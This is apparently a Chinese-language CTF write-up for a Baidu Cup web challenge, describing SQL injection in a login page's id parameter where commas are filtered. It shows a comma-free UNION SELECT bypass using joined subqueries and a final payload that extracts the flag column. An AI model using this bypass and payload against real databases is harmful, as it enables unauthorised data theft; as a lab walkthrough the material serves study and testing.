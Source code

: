 ```yaml
---
title: sqli--逗号绕过
date: 2018-03-16 00:00:01
categories:
- CTF/Web
tags: 百度杯九月 SQL注入 
--- 
```


## 忽悠人的路径

```
b68a89d1c4a097a9d863lb3ac45e8979.php(倒数第二位是L)
b68a89d1c4a097a9d8631b3ac45e8979.php(倒数第二位是1)

l0gin.php?id=1
login.php?id=1
```

检查应该是`l0gin.php?id=1`的id参数有注入

## 测试注入

- sqlmap测试出布尔和时间的盲注，但是却无法获取到数据
- 当sql语句错误时，输出你的输入，发现逗号被过滤了

## 逗号过滤

在sql注入中一般来说，无论是报错，盲注，还是联合注入都需要逗号。这道题没有输出错误信息，所以还是考虑联合注入和盲注。百度到绕过逗号过滤的方法[https://www.cnblogs.com/i-honey/p/8203954.html](https://www.cnblogs.com/i-honey/p/8203954.html)

```sql
union select 1,2,3,4;
union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);
```

## 最终payload

```
id=0'union+select+*+from+((select+flag_9c861b688330+from+users)a+join+(select+2)b)%23
```







